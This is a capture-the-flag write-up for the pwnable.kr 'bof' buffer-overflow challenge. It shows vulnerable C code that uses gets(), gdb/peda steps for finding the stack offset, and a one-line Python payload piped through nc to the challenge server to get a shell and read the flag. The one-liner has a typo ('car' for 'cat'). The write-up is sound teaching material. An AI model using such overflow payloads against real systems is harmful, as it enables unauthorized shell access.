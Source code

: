 # **bof**
First, we got the source code with .ELF file from the website.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```


![](https://i.imgur.com/my4Pb5O.png)
![](https://i.imgur.com/nhWAWPJ.png)

Cuz to bufferoverflow type's question, we should install a plugin to gdb, it may help a lot.
`git clone https://github.com/longld/peda.git ~/peda`
`echo "source ~/peda/peda.py" >> ~/.gdbinit`

![](https://i.imgur.com/0qX7YbU.png)

Then, change the .ELF you downloaded from the website by `chmod 777 bof`.(if your compiler settings is not the same to this question)

Starting trace code with `gdb ./bof`.

First, set a break point by `b main` to stop auto running.


![](https://i.imgur.com/I2W9xvB.png)

Insert `r` to start running the program.

![](https://i.imgur.com/6fiiiVa.png)

Using `n` which means "next" to line by line running this code.

![](https://i.imgur.com/B5qAK9B.png)

Using `s` which means "step" to step into the funtion, if you keep insert `n` then it will bypass this function's detail.

![](https://i.imgur.com/hgSsF18.png)

In this function which call by main, is calling IO.GET on line 35.

Before you step on it, you should create your own offset to determind the location of the overwritable point.

`pattern create 100` may help.
`100` is the value for nobody guess, but we sure that it should bigger than the distance from get point to `key` of `void func(int key)`.

You can also see the compare command just two more lines later. It means `key` are stored in `ebp+0x8`.

Before you overwrite it, the value of `ebp+0x8` must be `0xdeadbeef`.

![](https://i.imgur.com/6R4blpO.png)

After you step on it, it will require you to insert your offset. Just paste to the shell.

![](https://i.imgur.com/E9cZx5P.png)

After you paste your offset into this process, you can check what's storing in `ebp+0x8` now by `telescope $ebp+0x8 1`.

Now, you see `AAGAACAA` is the key offset we overwrite on `0xdeadbeef`.

![](https://i.imgur.com/cHUzfwN.png)

Using `pattern offset AAGA` to find the offset location.

After all, type `q` to exit the gdb.

![](https://i.imgur.com/fcmy8od.png)

Using python to generate the payload and inject it to server.

`(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; car -) | nc pwnable.kr 9000`

Becareful that stack is struct in DESC order, `cafebabe` should turn to be `bebafeca`.

![](https://i.imgur.com/0nGXESp.png)

Then, you'll get a shell return.

![](https://i.imgur.com/1qUJW6E.png)

You can check `id` and then `ls` it.

![](https://i.imgur.com/JUvQZ09.png)

Congratuz! `cat` the flag. Bada bing bada boom.

